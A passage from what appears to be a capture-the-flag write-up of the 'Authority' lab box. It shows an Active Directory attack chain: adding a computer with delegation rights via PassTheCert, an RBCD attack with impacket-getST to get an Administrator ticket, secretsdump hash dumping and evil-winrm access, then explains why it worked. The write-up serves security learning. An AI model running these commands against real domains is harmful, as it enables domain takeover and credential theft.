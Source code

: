 

-   **Create a new computer with constrained delegation privileges over the DC**:
    -   `python3 passthecert.py -action add_computer -crt admin.crt -key admin.key -domain $domain -dc-ip $box -computer-name bloodstiller2$ -delegated-services cifs/authority.$domain,ldap/authority.$domain`
    -   {{< figure src="/ox-hugo/2024-10-30-180702_.png" >}}


#### Performing the RBCD attack with `impacket-getST`: {#performing-the-rbcd-attack-with-impacket-getst}

-   **Perform an** RBCD **attack against the** `DC` **to retrieve an admin** `TGT`
    -   `impacket-getST -spn ldap/authority.$domain -impersonate Administrator -dc-ip $box 'authority.htb/bloodstiller2:g4rHrG2bPnCcz8mX7d1wGPNq4NnPf9Sp'`
    -   {{< figure src="/ox-hugo/2024-10-30-180539_.png" >}}

-   **Rename the** `.ccache` **file because WHY SO LONG**!
    -   `mv Administrator@ldap_authority.authority.htb@AUTHORITY.HTB.ccache Admin.ccache`
    -   {{< figure src="/ox-hugo/2024-10-30-180410_.png" >}}

-   **Export the** `KRB5CCNAME` **Variable**:
    -   `export KRB5CCNAME=./Admin.ccache`
    -   {{< figure src="/ox-hugo/2024-10-30-182124_.png" >}}

-   **Use** `impacket-secretsdump` **to dump the hashes**:
    -   `impacket-secretsdump -k -no-pass $domain/administrator@authority.$domain`
    -   {{< figure src="/ox-hugo/2024-10-30-180030_.png" >}}

-   **Verify the dumped hash works**:
    -   `netexec smb $box -u administrator -H $hash`
    -   {{< figure src="/ox-hugo/2024-10-30-175847_.png" >}}

-   **Connect with** `evil-winrm` **and get our flag**:
    -   `evil-winrm -i $box -u administrator -H $hash`
    -   {{< figure src="/ox-hugo/2024-10-30-180232_.png" >}}


### Why did this work? {#why-did-this-work}

**The key points are**:

- **Situation**:  
    - Enrolled a vulnerable certificate, but PKINIT failed due to Extended Key Usage (EKU) not being set.
    - Required an alternative authentication method to access the Domain Controller (DC) using the certificate.

- **Alternative Authentication**:  
    - Used `PassTheCert` to authenticate via `LDAP` using the Schannel security package.

- **RBCD (Resource-Based Constrained Delegation)**:  
    - Created a new computer with delegation rights over the DC.
    - Allowed us to authenticate against this new computer as the `Administrator`.
    - Enabled extraction of an Administrator TGT, granting us domain-level authentication.


## Lessons Learned: {#lessons-learned}
